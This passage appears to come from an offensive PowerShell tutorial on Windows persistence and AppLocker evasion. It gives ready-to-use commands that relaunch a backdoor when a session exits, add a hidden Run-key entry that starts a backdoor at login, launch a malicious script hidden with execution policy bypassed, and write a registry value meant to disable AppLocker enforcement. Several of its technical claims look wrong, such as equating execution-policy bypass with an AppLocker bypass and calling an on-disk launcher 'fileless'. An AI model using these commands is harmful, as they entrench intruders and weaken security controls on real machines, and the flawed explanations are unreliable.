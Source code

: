 #### Persist via PowerShell ScriptBlock (User Level)
ScriptBlocks allow you to register an action or script to execute on specific events, such as exiting a session. This registers an event that triggers a PowerShell script or executable when the user’s PowerShell session exits.
```powershell
Register-ObjectEvent -InputObject $host -EventName Exiting -Action {Start-Process -NoNewWindow -FilePath "C:\path\to\program.exe"} -MessageData "SessionExitEvent"
```
This ensures that when the session is terminated, the backdoor process is re-executed.

#### Fileless Persistence
One of the most effective evasion techniques is fileless persistence. By not creating any additional files on disk, the attacker minimizes their footprint, making detection more difficult. PowerShell can be leveraged to achieve fileless persistence by manipulating in-memory objects or settings such as environment variables, registry keys, or using ScriptBlocks as demonstrated above.

Example: Using the Windows registry to persist PowerShell commands:
```powershell
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "PowerShellPersistence" -Value "powershell.exe -WindowStyle Hidden -Command 'Start-Process C:\Backdoor\backdoor.exe'"
```
- Explanation: This sets a registry key that will automatically launch the backdoor upon user login.

# AppLocker Bypass and Persistence

AppLocker, when configured, restricts executable and script execution based on predefined policies. However, by invoking PowerShell with certain parameters, it’s possible to bypass the execution restrictions. Here’s how you can do it:

#### Bypass AppLocker by Running a Script
This command runs a PowerShell script while bypassing AppLocker’s execution policy, allowing you to execute malicious scripts:
```powershell
powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -File "<path_to_malicious_script>"
```

#### Modify AppLocker Enforcement via Registry
AppLocker settings are often enforced through Group Policy and stored in the registry. Modifying certain registry values can disable or weaken AppLocker’s enforcement. However, direct tampering with these keys may require administrator privileges and is easily detectable by monitoring solutions. 

This command changes the AppLocker policy to disable enforcement, allowing you to run otherwise restricted applications:
```powershell
Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\SrpV2\Exe" -Name "EnforcementMode" -Value 0
```
- Explanation:
    - `-Path`: Points to the AppLocker settings in the registry.
    - `-Name "EnforcementMode"`: This key controls whether AppLocker rules are enforced (`1` for Enforced, `0` for Audit Mode).
    - `-Value 0`: Switches AppLocker to Audit Mode, meaning it will no longer block application execution but only log it.
